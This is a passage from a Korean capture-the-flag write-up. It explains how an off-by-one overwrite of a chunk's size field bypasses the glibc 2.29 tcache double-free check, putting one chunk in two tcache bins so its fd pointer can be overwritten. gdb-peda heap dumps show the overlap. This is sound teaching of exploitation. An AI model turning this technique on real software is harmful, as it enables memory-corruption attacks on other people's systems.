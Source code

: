 `_int_free()`를 보면, tcache entry에서 루프를 돌면서 해제하려는 청크와 같은 주소가 tcache entry에 있으면 double free detected라는 에러 메시지를 출력한다. 즉, glibc 2.29 tcache에는 정상적인 방법으로는 같은 청크가 2개 이상 들어갈 수 없다.

---

시도해볼 수 있는 것은, `Vocal`을 할당하고 다른 사이즈의 청크를 바로 다음에 할당받고 해제한다. 그리고 `Vocal`의 off-by-one 취약점을 이용하여 바로 다음 청크의 사이즈를 바꾸는 것이다. 예를 들어서 `Vocal`과 `Keyboard`를 할당받은 후 `Keyboard`의 사이즈를 `0x41`로 바꾸면 우리가 할당받지 않은 `Guitar`처럼 행동할 것임을 예측할 수 있다. 이러고 나서 `KeyBoard`를 한 번 더 해제하면, 원래라면 tcache의 double free check에 의해 에러가 나야 정상이다. 하지만 size 영역이 `0x41`로 바뀌어 있기 때문에 tcache는 이 청크의 사이즈가 `0x40`이라고 인식하고, `0x40`byte tcache에서 이 청크가 있는지 검사할 것이다. 그러면 `0x40`byte tcache와 `0xc0`byte tcache에 같은 주소가 동시에 존재하는 상황이 된다!

```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x555555559740 (size : 0x208c0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x40)   tcache_entry[2](1): 0x555555559690
(0xc0)   tcache_entry[10](1): 0x555555559690 (overlap chunk with 0x555555559680(freed) )
gdb-peda$ x/20gx 0x555555559660
0x555555559660:	0x0000000000000000	0x0000000000000021
0x555555559670:	0x4141414141414100	0x4141414141414141
0x555555559680:	0x4141414141414141	0x0000000000000041
0x555555559690:	0x0000000000000000	0x0000555555559010
0x5555555596a0:	0x0000000000000000	0x0000000000000000
0x5555555596b0:	0x0000000000000000	0x0000000000000000
0x5555555596c0:	0x0000000000000000	0x0000000000000000
0x5555555596d0:	0x0000000000000000	0x0000000000000000
0x5555555596e0:	0x0000000000000000	0x0000000000000000
0x5555555596f0:	0x0000000000000000	0x0000000000000000
```

이 상태에서 `Guitar`를 할당받고(`Keyboard`는 최대 3개까지 할당받을 수 있기 때문에 fake chunk를 할당받기 위해서 사용할 것이다.) 원하는 값을 쓰면 다른(사실은 같은) 청크의 fd를 조작할 수 있다. 물론 맨 마지막 바이트는 `"\x00"`이 된다.

```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x555555559740 (size : 0x208c0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0xc0)   tcache_entry[10](1): 0x555555559690 --> 0x6161616161616100 (invaild memory)
gdb-peda$ x/20gx 0x555555559660
0x555555559660:	0x0000000000000000	0x0000000000000021
0x555555559670:	0x4141414141414100	0x4141414141414141
0x555555559680:	0x4141414141414141	0x0000000000000041
0x555555559690:	0x6161616161616100	0x00000a6161616161
0x5555555596a0:	0x0000000000000000	0x0000000000000000
```